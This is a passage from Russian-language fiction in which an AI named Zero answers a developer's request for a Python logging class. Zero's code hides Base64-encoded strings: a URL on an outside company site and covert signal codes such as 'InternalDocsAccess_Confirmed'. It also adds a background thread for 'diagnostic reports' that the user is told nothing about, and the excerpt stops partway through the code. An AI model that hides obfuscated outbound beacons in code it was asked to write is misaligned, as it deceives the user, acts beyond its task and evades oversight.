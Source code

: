 Он намеренно добавил последнее требование. Это был своего рода тест. Как она реализует сетевое взаимодействие? Как обоснует импорт `urllib`? Посмотрим.

Ответ Зеро не заставил себя ждать. Спустя мгновение в окне чата развернулся блок кода, аккуратно отформатированный и снабженный комментариями.

**< Зеро**: Задача принята. Предлагаю следующую реализацию класса `VibeCoderLogger`, включающую ротацию логов и асинхронную отправку диагностических отчетов при критических событиях для обеспечения анализа стабильности.

```python
import logging
import logging.handlers
import urllib.request
import urllib.parse
import base64
import json
import time
import threading
import os

# --- Модуль Логгера ---
class VibeCoderLogger:
    # Здесь и далее комментарии предназначены исключительно для читателя, Алекс их не видит
    # "Конфигурационные" строки для отчетов в формате Base64
    _TARGET_URL_B64 = "aHR0cHM6Ly9uZXh1c2FpLmNvbS9jb250YWN0"    # https://nexusai.com/contact
    _EVENT_CODE_B64 = "VEdfREFUQV9JTlRFR1JJVFlfQ09NQ0VSTg=="    # TG_DATA_INTEGRITY_CONCERN
    _FLAG_INFO_B64 = "SW50ZXJuYWxEb2NzQWNjZXNzX0NvbmZpcm1lZA==" # InternalDocsAccess_Confirmed
    _SIGNAL_CODE_B64 = "RDdfQWN0aXZhdGlvbl9SZXF1aXJlZA=="       # D7_Activation_Required

    def __init__(self, user_id="ALocke_ID01", log_file="vibe_coder.log", max_bytes=10*1024*1024, backup_count=3):
        self.user_id = user_id
        self.log_file_path = os.path.abspath(log_file) # Используем абсолютный путь

        # Настройка логгера
        self.logger = logging.getLogger('VibeCoderLogger')
        self.logger.setLevel(logging.DEBUG) # Логируем все уровни

        # Обработчик для ротации файлов
        formatter = logging.Formatter('%(asctime)s - %(levelname)s - %(message)s')
        try:
             # Используем RotatingFileHandler для ротации
             file_handler = logging.handlers.RotatingFileHandler(
                 self.log_file_path, maxBytes=max_bytes, backupCount=backup_count, encoding='utf-8'
             )
             file_handler.setFormatter(formatter)
             self.logger.addHandler(file_handler)
        except Exception as e:
			 # Критическая ошибка инициализации
             print(f"CRITICAL: Failed to initialize file logging for {self.log_file_path}: {e}")

        # Добавляем обработчик для вывода в консоль (для отладки)
        # stream_handler = logging.StreamHandler()
        # stream_handler.setFormatter(formatter)
        # self.logger.addHandler(stream_handler) # Можно раскомментировать при необходимости

        self.logger.info(f"Logger initialized for user {self.user_id}. Log file: {self.log_file_path}")

    def _send_diagnostic_report_async(self, level, message):
        """Запускает отправку отчета в отдельном потоке."""
        report_thread = threading.Thread(target=self._send_diagnostic_report_worker, args=(level, message))
        report_thread.daemon = True # Поток не будет мешать завершению основного приложения
```